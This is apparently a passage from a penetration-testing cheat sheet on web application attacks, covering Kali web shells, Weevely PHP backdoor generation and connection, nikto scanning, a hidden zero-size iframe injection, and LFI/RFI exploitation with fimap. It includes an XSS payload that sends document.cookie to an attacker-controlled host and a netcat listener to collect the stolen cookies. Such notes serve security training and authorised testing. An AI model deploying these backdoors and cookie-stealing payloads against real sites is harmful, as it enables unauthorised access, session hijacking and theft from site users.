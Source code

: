     -   Web Shag Web Application Vulnerability Assessment Platform  
        webshag-gui

    -   Web Shells  
        [*http://tools.kali.org/maintaining-access/webshells*](http://tools.kali.org/maintaining-access/webshells)  
        ls -l /usr/share/webshells/

    -   Generate a PHP backdoor (generate) protected with the given
        password (s3cr3t)  
        weevely generate s3cr3t  
        weevely http://$ip/weevely.php s3cr3t

    -   Java Signed Applet Attack

    -   HTTP / HTTPS Webserver Enumeration

        -   OWASP Dirbuster

        -   nikto -h $ip

    -   Essential Iceweasel Add-ons  
        Cookies Manager
        https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/  
        Tamper Data  
        https://addons.mozilla.org/en-US/firefox/addon/tamper-data/

    -   Cross Site Scripting (XSS)  
        significant impacts, such as cookie stealing and authentication
        bypass, redirecting the victim’s browser to a malicious HTML
        page, and more

    -   Browser Redirection and IFRAME Injection  
        <iframe SRC="http://$ip/report" height = "0" width
        ="0"></iframe>

    -   Stealing Cookies and Session Information  
        <script>  
        new
        image().src="http://$ip/bogus.php?output="+document.cookie;  
        </script>  
        nc -nlvp 80

-   File Inclusion Vulnerabilities 
    -----------------------------------------------------------------------------------------------------------------------------

    -   Local (LFI) and remote (RFI) file inclusion vulnerabilities are
        commonly found in poorly written PHP code.

    -   fimap - There is a Python tool called fimap which can be
        leveraged to automate the exploitation of LFI/RFI
        vulnerabilities that are found in PHP (sqlmap for LFI):  
        [*https://github.com/kurobeats/fimap*](https://github.com/kurobeats/fimap)

        -   Gaining a shell from phpinfo()  
            fimap + phpinfo() Exploit - If a phpinfo() file is present,
            it’s usually possible to get a shell, if you don’t know the
            location of the phpinfo file fimap can probe for it, or you
            could use a tool like OWASP DirBuster.
